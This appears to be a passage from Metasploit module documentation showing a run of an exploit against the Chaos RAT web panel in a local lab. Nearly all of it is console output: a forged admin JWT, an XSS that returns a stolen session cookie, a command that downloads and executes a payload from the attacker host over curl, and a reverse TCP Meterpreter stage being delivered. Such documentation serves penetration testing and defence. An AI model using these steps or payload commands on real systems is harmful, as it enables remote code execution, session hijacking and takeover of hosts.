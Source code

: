 #### JWT Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
jwt => eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
resource (chaos.rb)> set SRVHOST 111.111.63.147
SRVHOST => 111.111.63.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf6 exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./HVHYAPykfOV http://111.111.63.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./HVHYAPykfOV; ./HVHYAPykfOV &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.63.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.63.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
[*] Attempting exploitation through JWT token
[*] Fake MAC for agent: d9:74:62:8e:fc:43
[*] Listening for XSS response on: http://111.111.63.147:8888/
[*] Performing Callback Checkin
[*] WebSocket connecting to receive commands
```

Log in to the website, click `Acion`, `Remote Shell` on the
fake agent we've added to the list. Now type anything into
the input box and click `Send`.

```
[+] Received agent command 'whoami', sending XSS in return
[*] Received GET request.
[+] Received cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzEwMTAsIm9yaWdfaWF0IjoxNzEzMzY3NDEwLCJ1c2VyIjoiYWRtaW4ifQ.K-DCy8qNaxAHVx2Hu_Z-Ff7ZEG_TWkaount8wEM0clk
[+] Detected Agents
Live Agents
===========

 IP          OS       Username     Hostname  MAC
 --          --       --------     --------  ---
 111.111.63  Windows  Administrat  DC01      d9:74:62:8e:fc
 .147                 or (Adminis            :43
                      trator)

[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
```